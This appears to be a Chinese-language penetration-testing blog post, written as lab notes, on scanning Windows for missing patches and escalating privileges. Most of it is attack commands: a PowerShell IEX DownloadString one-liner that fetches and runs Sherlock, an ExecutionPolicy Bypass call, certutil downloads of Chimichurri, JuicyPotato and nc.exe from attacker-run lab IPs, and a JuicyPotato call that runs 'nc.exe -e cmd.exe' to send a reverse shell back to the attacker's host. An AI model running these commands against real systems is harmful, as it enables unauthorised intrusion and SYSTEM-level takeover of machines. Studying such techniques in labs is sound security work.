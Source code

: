 ```yaml
---
title: Windows漏洞扫描与提权
date: 2021/12/12
tags: [windows,渗透测试,漏洞利用]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
---
```




# windows漏洞扫描与提权

## 漏洞扫描

- 使用msf

```
use post/multi/recon/local_exploit_suggester
```

- 脚本 [Sherlock](https://github.com/mxrmiss/Sherlock)
  - **[使用方法](https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/)**


>```
>初步使用本地加载脚本
>Import-Module Sherlock.ps1
>
>远程加载脚本
>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
>
>在不触发脚本执行检测的情况下运行Sherlock
>powershell -ExecutionPolicy Bypass -File Sherlock.ps1
>```

>- 使用**Meterpreter**
>
>1. 加载powershell  
>
>```
>load powershell
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-30.png)
>
>2. 导入 Sherlock 脚本。找到包含它的文件夹 (第一次可能不成功，多试几次)
>
>```
>powershell_import ‘Sherlock.ps1’
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-31.png)
>
>3. 运行脚本 (第一次可能不成功，多试几次)
>
>```
>powershell_execute “Find-allvulns”
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-32.png)

- 脚本 [Watson](https://github.com/mxrmiss/Watson)



## 提权

- 脚本 [Chimichurri](https://github.com/mxrmiss/Chimichurri)

>- 在windows靶机中接收脚本文件
>
>```
>certutil -f -urlcache http://10.10.14.31:8000/chimichurri.exe chimichurri.exe
>```
>
>- 本地机器nc监听端口, 靶机上使用脚本文件
>
>```
>chimichurri.exe ip port
>```
>
>- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

- 脚本 [juicyPotato.exe](https://github.com/ohpe/juicy-potato/releases)

>- 首先使用`whoami \priv` 查看用户权限，如果用户拥有`SeImpersonate`或`SeAssignPrimaryToken`权限，则这个脚本就适用
>- 上传到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/JuicyPotato.exe juicyPotato.exe
>```
>
>- 上传nc.exe到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/nc64.exe nc.exe
>```
>
>- 使用juicyPotato.exe
>
>```
>juicyPotato.exe  -l 5837 -t t -p C:\Windows\System32\cmd.exe   -a "/cc:\users\public\nc.exe -e cmd.exe 192.168.119.150 5555"
>```
>
>- 查看本地监听的端口，成功获取管理员权限
>
>